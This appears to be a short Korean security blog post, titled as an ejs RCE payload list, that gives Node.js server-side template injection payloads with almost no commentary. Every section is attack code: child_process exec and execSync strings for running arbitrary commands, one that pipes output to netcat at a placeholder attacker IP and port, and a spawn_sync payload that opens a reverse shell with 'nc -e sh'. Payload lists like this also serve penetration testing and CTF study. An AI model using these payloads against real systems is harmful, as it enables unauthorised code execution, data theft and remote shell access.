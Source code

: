 ```yaml
---
title: ejs RCE Payload
date: 2023-11-28
author: glasses96
categories: [WEB]
tags: [ejs, RCE Payload]
pin: true
math: true
mermaid: true
---
```


> **ejs에서 사용 가능한 RCE payload 입니다.** 
{: .prompt-info }

---
## Payload

mainModule
```javascript
"process.mainModule.constructor._load('child_process').exec('{CMD}+|+nc+{attackerip}+{port})"
```

mainModule
```javascript
"process.mainModule.require('child_process').execSync('{CMD}')"
```

binding
```javascript
"process.binding('spawn_sync').spawn({file:+'/bin/sh',args:+['/bin/sh','-c','nc+{IP}+{PORT}+-e+sh'],stdio:+[{type:+'pipe',readable:+1}]})"
```

import
```javascript
async function loadModule() {try {const module = await import('child_process');console.log(module.execSync(`{CMD}`).toString());} catch (error) {console.error(error);}};loadModule();
```

## Reference
https://mihee0703.tistory.com/118  
https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet